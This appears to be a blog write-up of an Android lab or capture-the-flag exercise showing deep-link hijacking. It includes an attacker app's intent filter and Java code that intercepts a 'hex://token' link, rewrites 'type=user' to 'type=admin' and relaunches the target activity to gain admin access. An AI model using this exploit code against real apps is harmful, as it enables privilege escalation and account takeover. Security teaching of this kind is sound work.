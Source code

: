 ```yaml
---
layout: post
title: How I Gained Admin Access Through DeepLink Hijacking
date: 2025-03-14 20:53 +0200
catgeories: Mobile
tags: Android Mobile
---
```


Hello everyone! Today, I’ll walk you through how to exploit a DeepLink hijacking vulnerability to gain admin access.<br>
Let’s dive right in.

## Step 1: Analyzing the AndroidManifest
While reviewing the `AndroidManifest.xml`, I noticed an `exported` activity with the following BROWSABLE intent filter:
```java
<intent-filter>  
    <action android:name="android.intent.action.VIEW" />  
    <category android:name="android.intent.category.DEFAULT" />  
    <category android:name="android.intent.category.BROWSABLE" />  
    <data  
        android:scheme="hex"  
        android:host="token" />  
</intent-filter>
```
This exported activity allows external applications or browsers to interact with it using the `hex://token` scheme and host combination.
## Step 2: Reviewing the Source Code
Here’s the relevant snippet of the activity’s code:
```java
  public void onCreate(Bundle bundle) {  
    super.onCreate(bundle);  
    Intent intent = getIntent();  
    if (intent == null || intent.getAction() == null) {  
        finish();  
        return;  
    }  

    if (intent.getAction().equals("android.intent.action.VIEW")) {  
        Uri data = intent.getData();  
        String type = data.getQueryParameter("type");  
        String authToken = data.getQueryParameter("authToken");  
        String authChallenge = data.getQueryParameter("authChallenge");  
        String savedChallenge = SolvedPreferences.getString(getPrefixKey("challenge"));  

        if (type == null || authToken == null || authChallenge == null || !authChallenge.equals(savedChallenge)) {  
            Toast.makeText(this, "Invalid login", Toast.LENGTH_SHORT).show();  
            finish();  
            return;  
        }  

        if (type.equals("user")) {  
            Toast.makeText(this, "User login successful", Toast.LENGTH_SHORT).show();  
        } else if (type.equals("admin")) {  
            Log.i("Flag14", "hash: " + authToken);  
            Toast.makeText(this, "Admin login successful", Toast.LENGTH_SHORT).show();  
            success(this);  
        }  
    }  
}
```
### Key takeaways from the code:
- The `type`, `authToken`, and `authChallenge` parameters are validated.
- A specific `authChallenge` must match a saved value to proceed.
- If the `type` parameter is set to `"admin"` and the hash of `authToken` matches a predefined value, admin login is granted.

## Step 3: Crafting the Exploit
To exploit this vulnerability, I created an attack application with the same intent filter in its **AndroidManifest.xml:**
```java
<intent-filter>  
    <action android:name="android.intent.action.VIEW" />  
    <category android:name="android.intent.category.DEFAULT" />  
    <category android:name="android.intent.category.BROWSABLE" />  
    <data  
        android:scheme="hex"  
        android:host="token" />  
</intent-filter>
```
This allows my application to intercept the DeepLink.

## Initial Exploit Attempt
Here’s the initial code I used to send an intent via the application’s DeepLink:
```java
protected void onCreate(Bundle savedInstanceState) {  
    super.onCreate(savedInstanceState);  
    setContentView(R.layout.activity_main);  

    ((Button) findViewById(R.id.btn_launch_activity)).setOnClickListener(new View.OnClickListener() {  
        @Override  
        public void onClick(View v) {  
            Intent intent = new Intent();  
            intent.setClassName("com.example", "com.example.connectProperty");  
            startActivity(intent);  
        }  
    });  
}
```
Upon inspecting the intent data, I found a parameter called `type=user`. 
This parameter defines the user’s role:

![](https://miro.medium.com/v2/resize:fit:1062/format:webp/1*53tEwJoEQpkO6MCNj1WsUA.png)

## Exploiting the Vulnerability
What happens if we replace `type=user` to `type=admin`? 🤔

Here’s the final exploit code:
```java
if (intent.getAction().equals("android.intent.action.VIEW")) {  
    Uri data = intent.getData();  
    if (data != null && data.getScheme().equals("hex") && data.getHost().equals("token")) {  
        Intent newIntent = new Intent();  
        newIntent.fillIn(intent, Intent.FILL_IN_DATA | Intent.FILL_IN_ACTION | Intent.FILL_IN_CATEGORIES);  
        newIntent.setClassName("com.example", "com.example.connectProperty");  
        newIntent.setData(Uri.parse(newIntent.getDataString().replace("type=user", "type=admin")));  

        startActivity(newIntent);  
    }  
}
```
By replacing `type=user` with `type=admin` in the DeepLink, I successfully gained admin privileges! 🎉
![](https://miro.medium.com/v2/resize:fit:632/format:webp/1*6VS8_Rk8iYBxPQmvR7CdAQ.png)

## Final Thoughts
This exercise highlights the importance of securely validating input parameters in DeepLink handlers. Improper validation or overly permissive exported activities can lead to severe vulnerabilities like privilege escalation.

**THANKS FOR READING ❤️**


